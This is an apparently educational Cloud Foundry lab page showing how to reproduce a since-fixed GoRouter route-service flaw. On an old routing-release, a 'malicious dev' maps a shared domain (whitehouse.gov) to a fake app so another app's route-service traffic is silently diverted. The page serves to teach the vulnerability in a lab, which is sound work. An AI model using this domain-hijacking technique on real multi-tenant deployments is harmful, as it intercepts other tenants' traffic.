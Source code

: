 ```yaml
---
layout: single
title: Exploiting Route Services
permalink: /route-services/exploit
sidebar:
  title: "Route Services"
  nav: sidebar-route-services
---
```

## Assumptions
- You have a CF deployed
- You have one
  [proxy](https://github.com/cloudfoundry/cf-networking-release/tree/develop/src/example-apps/proxy)
  app pushed and called appA
- You have one route mapped to appA called APP_A_ROUTE
- You unbound the rate limiter route service from the previous story

## What

In the previous story when you created your own Route Service you ran a command
that looked something like this...

{% include codeHeader.html %}
   ```bash
   cf create-user-provided-service MY_SERVICE -r MY_SERVICE_URL
   ```

The route MY_SERVICE_URL could be inside or outside of your Cloud Foundry.
However, one takes precedence.  Let's say that MY_SERVICE_URL exists inside
*and* outside of your Cloud Foundry. (Before a recent fix) GoRouter would
"hairpin" and always default to the MY_SERVICE_URL that exists *inside* the
Cloud Foundry.

Let's exploit this.

## How

😇 **Pretend that you are an innocent dev**

1. You need to deploy to an older version of routing-release from before this
   attack vector was fixed. Deploy CF with [routing-release
   0.186.0](https://bosh.io/releases/github.com/cloudfoundry-incubator/cf-routing-release?version=0.186.0).

1. Create a Route Service that sends all traffic to whitehouse.gov
{% include codeHeader.html %}
   ```bash
   cf create-user-provided-service realwhitehouse -r https://www.whitehouse.gov/
   ```

1. Bind this new Route Service to your APP_A_ROUTE
{% include codeHeader.html %}
   ```bash
   cf bind-route-service DOMAIN --hostname HOSTNAME realwhitehouse`
   ```

1. See that when you curl APP_A_ROUTE, you now just get www.whitehouse.gov (I
   don't know why you would want this. But it's an easy way to show this attack
   vector.)

😈 **Pretend that you are a malicious dev**

1. Push an app called fakewhitehouse using `--no-route`

1. Create the domain whitehouse.gov (`cf create-shared-domain --help`)

1. Map the route www.whitehouse.gov to the app fakewhitehouse
{% include codeHeader.html %}
   ```bash
   cf map-route fakewhitehouse whitehouse.gov --hostname www
   ```

1. In one terminal, watch the logs for the fakewhitehouseapp (`cf logs --help`)

1. In another terminal curl APP_A_ROUTE

## Expected Results
* You should see in the fakewhitehouse app logs that traffic was redirected to
  fakewhitehouse
* You should see by the response, that traffic was never sent to the real
  whitehouse.gov

## ❓ Questions
* What happened?
* Why is this really, really bad?
* How could you exploit this on a multi-tennant deployment?
* What level of permissions do you need to exploit this?

## Extra Credit
Find the code in GoRouter that let this happen. Maybe start your search
[here](https://github.com/cloudfoundry/gorouter/blob/f6879c04bac67c1e467f14b79496b9832869df91/proxy/round_tripper/proxy_round_tripper.go#L126-L196).

## Resources
* [CF docs - Route Services](https://docs.cloudfoundry.org/services/route-services.html)
* [Rate Limiting Route Service](https://github.com/cloudfoundry-samples/ratelimit-service)

